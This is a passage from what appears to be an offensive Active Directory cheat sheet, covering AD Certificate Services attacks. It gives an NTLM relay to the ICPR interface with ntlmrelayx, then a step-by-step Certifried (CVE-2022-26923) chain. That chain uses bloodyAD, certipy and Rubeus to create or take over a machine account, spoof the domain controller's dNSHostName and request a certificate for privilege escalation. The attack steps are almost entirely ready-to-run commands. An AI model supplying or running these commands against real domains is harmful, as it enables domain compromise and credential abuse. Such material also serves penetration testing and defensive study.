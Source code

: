 1.  Look for `Enforce Encryption for Requests: Disabled` in `certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout` output
    
2.  Setup a relay using Impacket ntlmrelay and trigger a connection to it.
    
    ```ps1
    ntlmrelayx.py -t rpc://10.10.10.10 -rpc-mode ICPR -icpr-ca-name lab-DC-CA -smb2support
    ```
    

### Certifried CVE-2022-26923

> An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

- Find `ms-DS-MachineAccountQuota`
    
    ```ps1
    python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 getObjectAttributes  'DC=lab,DC=local' ms-DS-MachineAccountQuota 
    ```
    
- Add a new computer in the Active Directory, by default `MachineAccountQuota = 10`
    
    ```ps1
    python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 addComputer cve 'CVEPassword1234*'
    certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve' -dns 'dc.lab.local'
    ```
    
- \[ALTERNATIVE\] If you are `SYSTEM` and the `MachineAccountQuota=0`: Use a ticket for the current machine and reset its SPN
    
    ```ps1
    Rubeus.exe tgtdeleg
    export KRB5CCNAME=/tmp/ws02.ccache
    python bloodyAD -d lab.local -u 'ws02$' -k --host dc.lab.local setAttribute 'CN=ws02,CN=Computers,DC=lab,DC=local' servicePrincipalName '[]'
    ```
    
- Set the `dNSHostName` attribute to match the Domain Controller hostname
    
    ```ps1
    python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 setAttribute 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName '["DC.lab.local"]'
    python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 getObjectAttributes 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName
    ```
    
- Request a ticket
    
    ```ps1
    # certipy req 'domain.local/cve$:CVEPassword1234*@ADCS_IP' -template Machine -dc-ip DC_IP -ca discovered-CA
    certipy req 'lab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA
    ```
    